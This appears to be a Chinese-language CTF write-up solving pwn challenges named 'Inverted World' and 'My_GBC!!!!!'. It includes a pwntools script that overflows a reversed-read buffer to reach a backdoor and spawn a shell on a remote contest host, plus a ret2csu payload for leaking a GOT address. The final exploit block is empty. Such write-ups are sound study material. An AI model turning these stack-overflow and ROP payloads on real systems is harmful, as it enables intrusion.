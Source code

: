注意点：因为`read`有大小限制，在使用`fmtstr_payload`时需限制`write_size`参数为`int`来缩短`payload`，不过会导致需要填充的字符数量很多，要填充一会
~~是哪个傻子获取`printf`的got时写成`elf.sym`，导致做了好几天没做出来，我不好说~~
### Inverted World
![[Pasted image 20241005221232.png]]
首先可以看到有一个backdoor函数，没什么思路，打开gdb调试一下
![[Pasted image 20241005221439.png]]
可以发现整个是逆序放入栈中的，那么只需要填充至`+008`处将`+008`处换为`backdoor`的地址就可以调用`backdoor`了
![[Pasted image 20241005221833.png]]
进入``backdoor``后发现还需要`hackable`为真时才能真正获取`shell`，不然会获得一个真“flag”，这里我没找到直接改变`hackable`的方法，我选择直接进入`if`里面
![[Pasted image 20241005222024.png]]
将覆盖地址改为`0x401387c则可以直接进入`if`内
构造exp:
```python
from pwn import *

context(arch='amd64', os='linux', log_level='debug')
local = False
if local:
    p = process('./inverted_world')
    pwnlib.gdb.attach(p, 'b *read')
else:
    p = remote('39.106.48.123', 34234)

# 因read为倒叙读取，所以需要将输入的字符串倒叙输入
backdoor = 0x7c13400000000000

payload = b'a' * (0x100) + p64(backdoor)
p.sendline(payload)
p.interactive()
```
![[Pasted image 20241005222343.png]]
然后我们又会发现，这里的`read`他在需要倒叙输入的同时，还只能输入两个字符，除了`ls`我们什么都干不了.......
才怪，输入`sh`可以直接获取`shell`
![[Pasted image 20241005222549.png]]
接下来可以正常获取flag
### My_GBC!!!!!
![[Pasted image 20241006021055.png]]
首先进行`gdb`调试，可以发现把我们的输入经由`encrypt`后存在栈上，可以栈溢出，所以可以将`payload`反向解密后注入，让其加密后成为我们实际输入的`payload`即可
解决栈溢出的问题后，考虑如何进一步，初步看来以为是一个`ret2libc`，利用`write`函数泄露地址
![[Pasted image 20241006021530.png]]
但实际运行时发现我们无法获取`rdx`的`gadget`，便无法修改`write`的输出数量，实际运行也可以看出仅能输出一位
![[Pasted image 20241006021707.png]]
所以普通的`ret2libc`打不通。
所以这里使用的是`ret2csu`，![[Pasted image 20241006021812.png]]
即先调用`loc_4013A6`往`r12,r13,r14,r15`放入我们的值，然后调用`loc_401390`将`r14,r13,r12`的值分别存入`rdx,rsi,rdi`，再跳转到`r15`
具体构造payload:
```python
payload = b'a' * 0x18
payload += p64(csu_1)
payload += p64(0) + p64(1)
# r12 r13 r14 r15 -> rdi rsi rdx call
payload += p64(1) + p64(leak_got) + p64(8) + p64(leak_got)
payload += p64(csu_2) + b'a' * 0x38
payload += p64(main)
```
完整exp:
```python
```